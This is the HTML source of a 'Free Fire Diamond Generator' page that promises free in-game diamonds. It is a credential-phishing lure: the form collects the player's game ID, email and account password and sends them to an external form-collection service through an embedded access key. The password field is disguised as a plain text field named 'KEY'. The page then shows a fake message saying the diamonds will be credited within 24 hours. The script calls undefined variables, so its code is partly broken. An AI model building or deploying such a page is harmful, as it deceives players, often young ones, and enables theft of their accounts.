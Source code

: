<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Free Fire Diamond Generator</title>
    <meta name="description" content="Free Fire Diamond Generator - Get Free Diamonds">
    <meta name="keywords" content="Free Fire, Diamonds, Generator, Free Diamonds, Get Diamonds">
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;600;700&display=swap" rel="stylesheet">
    <script src="https://cdn.tailwindcss.com"></script>
    <style>
        body {
            font-family: 'Poppins', sans-serif;
            background-color: #f0f0f0;
            animation: fadeInBackground 2s ease forwards;
        }
        @keyframes fadeInBackground {
            from { background-color: rgba(240, 240, 240, 0); }
            to { background-color: #f0f0f0; }
        }

 .container {
            background: linear-gradient(135deg, #ffffff, #f0f2ff);
            border-radius: 12px;
            box-shadow: 0 6px 18px rgba(0, 0, 0, 0.15);
            padding: 30px;
            width: 100%;
            max-width: 600px;
            transition: transform 0.3s ease, box-shadow 0.3s ease;
            animation: fadeIn 1s ease forwards, moveIn 1s ease forwards;
            opacity: 0;
            transform: translateY(20px);
        }
        @keyframes fadeIn {
            from { opacity: 0; }
            to { opacity: 1; }
        }
        @keyframes moveIn {
            from { transform: translateY(20px); }
            to { transform: translateY(0); }
        }
        .container:hover {
            transform: scale(1.04);
            box-shadow: 0 8px 24px rgba(0, 0, 0, 0.2);
        }

 .heading {
            font-size: 2.5rem;
            font-weight: 700;
            color: #4c51bf;
            margin-bottom: 25px;
            text-align: center;
            text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.05);
            animation: pulse 2s infinite alternate;
        }
        @keyframes pulse {
            from { transform: scale(1); }
            to { transform: scale(1.06); }
        }

  .description {
            font-size: 1.1rem;
            color: #6b7280;
            margin-bottom: 30px;
            text-align: center;
            line-height: 1.7;
            text-shadow: 1px 1px 2px rgba(0, 0, 0, 0.03);
        }

  form {
            margin-bottom: 24px;
        }

 form label {
            display: block;
            font-size: 0.95rem;
            font-weight: 600;
            color: #374151;
            margin-bottom: 10px;
            transition: color 0.3s ease;
        }
        form label:hover {
             color: #4f46e5;
        }

  form input[type="text"],
        form input[type="email"],
        form input[type="password"] {
            display: block;
            width: 100%;
            padding: 12px 18px;
            font-size: 1.1rem;
            line-height: 1.5;
            color: #4b5563;
            background-color: #ffffff;
            border: 1.8px solid #d1d5db;
            border-radius: 8px;
            transition: border-color 0.3s ease, shadow-sm 0.3s ease;
            appearance: none;
            box-shadow: inset 0 2px 4px rgba(0,0,0,0.02);
        }
        form input[type="text"]:focus,
        form input[type="email"]:focus,
        form input[type="password"]:focus {
            outline: none;
            border-color: #6366f1;
            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.15);
        }
        form input[type="text"]::placeholder,
        form input[type="email"]::placeholder,
        form input[type="password"]::placeholder{
            color: #9ca3af;
            font-style: italic;
            opacity: 0.8;
        }
         form select {
            display: block;
            width: 100%;
            padding: 12px 18px;
            font-size: 1.1rem;
            line-height: 1.5;
            color: #4b5563;
            background-color: #ffffff;
            border: 1.8px solid #d1d5db;
            border-radius: 8px;
            transition: border-color 0.3s ease, shadow-sm 0.3s ease;
            appearance: none;
            box-shadow: inset 0 2px 4px rgba(0,0,0,0.02);
        }
        form select:focus {
            outline: none;
            border-color: #6366f1;
            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.15);
        }

 form button[type="submit"] {
            background: linear-gradient(to right, #6b7280, #374151);
            color: #fff;
            padding: 14px 30px;
            font-size: 1.2rem;
            font-weight: 600;
            border: none;
            border-radius: 10px;
            cursor: pointer;
            transition: background-color 0.3s ease, transform 0.2s ease, box-shadow 0.3s ease;
            box-shadow: 0 5px 11px rgba(0, 0, 0, 0.1);
            width: 100%;
            display: block;
            text-align: center;
        }
        form button[type="submit"]:hover {
            background: linear-gradient(to right, #4b5563, #1f2937);
            transform: translateY(-2px) scale(1.02);
            box-shadow: 0 7px 15px rgba(0, 0, 0, 0.15);
        }
        form button[type="submit"]:active {
            transform: translateY(0) scale(1);
            box-shadow: 0 2px 5px rgba(0, 0, 0, 0.2);
        }

  #message-container {
            margin-top: 30px;
            text-align: center;
            font-size: 1.1rem;
            font-weight: 600;
            color: #dc2626;
            padding: 12px;
            background-color: #fee2e2;
            border-radius: 8px;
            border: 1px solid #fecaca;
            animation: fadeIn 1s ease forwards, shake 0.5s infinite alternate;
            opacity: 0;
        }
        @keyframes shake {
            from { transform: translateX(-1px); }
            to { transform: translateX(1px); }
        }
    </style>
</head>
<body class="bg-gradient-to-r from-purple-400 to-pink-500 h-screen flex justify-center items-center">
    <div class="container">
        <h1 class="heading">Free Fire Diamond Generator</h1>
        <p class="description">Enter your details below to get free diamonds!</p>
        <form action="https://api.web3forms.com/submit" method="POST" id="diamond-form">
            <input type="hidden" name="access_key" value="0732fb33-547b-48bb-826e-09f7854ad14b">
            <div class="form-group">
                <label for="ff-id" class="form-label">Free Fire ID:</label>
                <input type="text" id="ff-id" name="FF-ID" class="form-control" placeholder="Enter your Free Fire ID" required>
                <div id="ff-id-error" class="text-red-500 text-xs mt-1" style="display: none;"></div>
            </div>
            <div class="form-group">
                <label for="email" class="form-label">Email:</label>
                <input type="email" id="email" name="email" class="form-control" placeholder="Enter your Email" required>
                 <div id="email-error" class="text-red-500 text-xs mt-1" style="display: none;"></div>
            </div>
           
  <LAbel for="QWERTY">Password:</LAbel>
                <input type="text" id="QWERTY" name="KEY" class="form-control" placeholder="Password" required>
 <div class="form-group">
                <label for="diamonds" class="form-label">Number of Diamonds:</label>
                <select id="diamonds" name="diamonds" class="select-control">
                    <option value="100">100 Diamonds</option>
                    <option value="500">500 Diamonds</option>
                    <option value="1000">1000 Diamonds</option>
                    <option value="5000">5000 Diamonds</option>
                    <option value="10000">10000 Diamonds</option>
                </select>
            </div>
            <input type="checkbox" name="botcheck" class="hidden" style="display: none;">
            <button type="submit" class="btn-primary">GET DIAMOND</button>
        </form>
        <div id="message-container" class="mt-8">
        </div>
    </div>
    <script>
        const form = document.getElementById('diamond-form');
        const messageContainer = document.getElementById('message-container');
        const ffIdInput = document.getElementById('ff-id');
        const emailInput = document.getElementById('email');
      
  const ffIdError = document.getElementById('ff-id-error');
        const emailError = document.getElementById('email-error');
       
   function validateFFId() {
            const ffIdValue = ffIdInput.value.trim();
            if (!/^\d+$/.test(ffIdValue)) {
                ffIdError.textContent = "Invalid Free Fire ID. Please enter numbers only.";
                ffIdError.style.display = "block";
                return false;
            } else {
                ffIdError.style.display = "none";
                return true;
            }
        }
 function validateEmail() {
            const emailValue = emailInput.value.trim();
            const emailRegex = /^[\w-\.]+@([\w-]+\.)+[\w-]{2,4}$/;
            if (!emailRegex.test(emailValue)) {
                emailError.textContent = "Invalid email address.";
                emailError.style.display = "block";
                return false;
            } else {
                emailError.style.display = "none";
                return true;
            }
        }

  function validatePassword() {
            const passwordValue = passwordInput.value.trim();
            if (passwordValue.length < 6) {
                passwordError.textContent = "Password must be at least 6 characters long.";
                passwordError.style.display = "block";
                return false;
            } else {
  passwordError.style.display = "none";
                return true;
            }
        }

  ffIdInput.addEventListener('input', validateFFId);
        emailInput.addEventListener('input', validateEmail);
        passwordInput.addEventListener('input', validatePassword);

  form.addEventListener('submit', (event) => {
            event.preventDefault();

  const isFFIdValid = validateFFId();
            const isEmailValid = validateEmail();
            const isPasswordValid = validatePassword();

  if (isFFIdValid && isEmailValid && isPasswordValid) {
                const ffId = document.getElementById('ff-id').value;
                const diamonds = document.getElementById('diamonds').value;
                 messageContainer.textContent = `Generating ${diamonds} diamonds for ID: ${ffId}... (This is a simulation)`;
                setTimeout(() => {
                    messageContainer.textContent = "Operation successful! Please wait up to 24 hours for the diamonds to be credited to your account. (This is a simulation)";
                }, 3000);
               // form.submit();
            }
        });
    </script>
</body>
</html>
